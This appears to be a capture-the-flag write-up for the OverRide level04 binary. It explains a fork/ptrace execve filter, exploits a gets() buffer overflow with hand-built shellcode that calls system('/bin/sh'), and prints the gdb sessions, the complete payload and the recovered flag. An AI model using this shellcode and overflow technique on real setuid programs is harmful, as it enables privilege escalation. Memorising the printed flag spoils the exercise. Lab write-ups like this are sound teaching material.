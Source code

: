 # LEVEL04 - SYSCALL BANISHMENT

We have a binary named level04 at /home/users/level04/

It is owned by `level05` and has a `setuid bit`

The program first defines some variables then calls `fork`

```c
int main(void)
{
	int childStatus;
	char shellcode[128];
	int syscallNumber;
	__pid_t childPid;
	
	childPid = fork();
```

Then we can divide the code in two sections: `parent` and `child`

Here is the `parent` part: 

```c
if (childPid != 0)
	{
		// parent
		do
		{
			wait(&childStatus);
			int exitStatus = childStatus / 256;
			int signalNumber = childStatus % 128;
			if ((exitStatus != 0) || (signalNumber > 0 && signalNumber != 127))
			{
				puts("child is exiting...");
				return 0;
			}
			syscallNumber = ptrace(PTRACE_PEEKUSER, childPid, EIP_OFFSET, 0);
		} while (syscallNumber != EXECVE_SYSCALL);
		puts("no exec() for you");
		kill(childPid, 9);
	}
```

It waits for any change in the child's status, checks if the child has exited then gets the last syscall number stored in the EIP register of the child process.

If the syscall is `execve` it kills the child and prints "no exec() for you" or else it continues to loop

Here is the `child` part:

```c
else
	{
		// child
		prctl(1, 1);
		ptrace(PTRACE_TRACEME, 0, 0, 0);
		puts("Give me some shellcode, k");
		gets(shellcode);
	}
```

The child first makes itself tracable then ask the user for some shellcode

We can use a buffer overflow vulnerability using `gets`

```c
char shellcode[128];
...
gets(shellcode);
```

The strategy here is to inject a shellcode but we can not call the execve syscall in the child process.

We will try to use the `system` function to bypass this protection because it creates a subprocess that will then call `execve` but this protection only checks if the child is calling `execve`

First we have to find out if the `system` function is already imported inside the code

```
level04@OverRide:~$ gdb ./level04
(gdb) b main
Breakpoint 1 at 0x80486cd
(gdb) r
Starting program: /home/users/level04/level04

Breakpoint 1, 0x080486cd in main ()
(gdb) info functions system
All functions matching regular expression "system":

Non-debugging symbols:
0xf7e6aed0  __libc_system
0xf7e6aed0  system
0xf7f48a50  svcerr_systemerr
```

The `system` function is already imported inside the code and is located at address `0xf7e6aed0`

Now let's try to exploit the overflow, first we have to set `follow-fork-mode` to `child` inside `gdb` to make it follow the child process then we set a breakpoint in the `child` just after `gets`

```
(gdb) set follow-fork-mode child

(gdb) disas main
...
0x0804875e <+150>:   call   0x80484b0 <gets@plt>
0x08048763 <+155>:   jmp    0x804881a <main+338>
...

(gdb) b*0x08048763
Breakpoint 1 at 0x8048763

(gdb) r < <(python -c "print(156*'a'+'ABCD')")
Starting program: /home/users/level04/level04 < <(python -c "print(200*'a')")
[New process 1581]
Give me some shellcode, k
[Switching to process 1581]
Breakpoint 1, 0x08048763 in main ()
child is exiting...

(gdb) info frame
Stack level 0, frame at 0xffffd720:
 eip = 0x8048763 in main; saved eip 0x44434241

(gdb) info reg
eax            0xffffd680

(gdb) x/s 0xffffd680
0xffffd680:      'a' <repeats 156 times>, "ABCD"
```

We have succesfully found the buffer's address (`0xffffd680`) and it's offset until the return address of the `child` process (`156`)

Now let's craft the shellcode

```python
#system("/bin/sh")
bufferAddress = '0xffffd680'
systemAddress = '0xf7e6aed0'
hexCode = pwn.asm('''
	xor eax, eax
	push eax
	push 0x68732f2f
	push 0x6e69622f
	mov ebx, esp
	push ebx

	mov eax, ''' + systemAddress + '''
	call eax
    ''').hex()

addressCode = addBackslashX(invertEndian(bufferAddress))
sys.stdout.write('\nAddress:\n' + addressCode + '\n')
sys.stdout.write('Len: ' + str(int(len(addressCode) / 4)) + '\n')

shellCode = addBackslashX(hexCode)
sys.stdout.write('\nShellcode:\n' + shellCode + '\n')
sys.stdout.write('Len: ' + str(int(len(shellCode) / 4)) + '\n')
```

We get this code:

```
Address:
\x80\xd6\xff\xff
Len: 4

Shellcode:
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x53\xb8\xd0\xae\xe6\xf7\xff\xd0
Len: 23
```

We will have to add `133` filling characters (156 - 23)

Here is what the payload looks like

```
python -c "print('\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x53\xb8\xd0\xae\xe6\xf7\xff\xd0' + 133 * 'a' + '\x80\xd6\xff\xff')"
```

Let's try it

```
(gdb) b*0x08048763
Breakpoint 1 at 0x8048763

(gdb) set follow-fork-mode child*
Undefined item: "child*".

(gdb) set follow-fork-mode child

(gdb) r < <(python -c "print('\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x53\xb8\xd0\xae\xe6\xf7\xff\xd0' + 133 * 'a' + '\x80\xd6\xff\xff')")
Starting program: /home/users/level04/level04 < <(python -c "print('\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x53\xb8\xd0\xae\xe6\xf7\xff\xd0' + 133 * 'a' + '\x80\xd6\xff\xff')")
[New process 1690]
child is exiting...
Give me some shellcode, k
[Switching to process 1690]
Breakpoint 1, 0x08048763 in main ()

(gdb) info frame
Stack level 0, frame at 0xffffd720:
 eip = 0x8048763 in main; saved eip 0xffffd680
```

The return address was successfully overridden by the buffer's address

Let's try to display our shellcode inside the buffer

```
(gdb) x/12i 0xffffd680
   0xffffd680:  xor    %eax,%eax
   0xffffd682:  push   %eax
   0xffffd683:  push   $0x68732f2f
   0xffffd688:  push   $0x6e69622f
   0xffffd68d:  mov    %esp,%ebx
   0xffffd68f:  push   %ebx
   0xffffd690:  mov    $0xf7e6aed0,%eax
   0xffffd695:  call   *%eax
   0xffffd697:  popa
   0xffffd698:  popa
   0xffffd699:  popa
   0xffffd69a:  popa
```

The shellcode is present and looks good, let's continue

```
(gdb) c
Continuing.
[New process 1692]
process 1692 is executing new program: /bin/dash
```

The shell was successfully executed, now let's do it in "real mode"

We need to increase a bit the address of the buffer to get is right, here we will add 32 bytes making the address `0xffffd6a0`

```
level04@OverRide:~$ (python -c "print('\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x53\xb8\xd0\xae\xe6\xf7\xff\xd0' + 133 * 'a' + '\xa0\xd6\xff\x
ff')"; cat) | ./level04
Give me some shellcode, k
whoami
level05
cat /home/users/level05/.pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```

The flag is

```
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```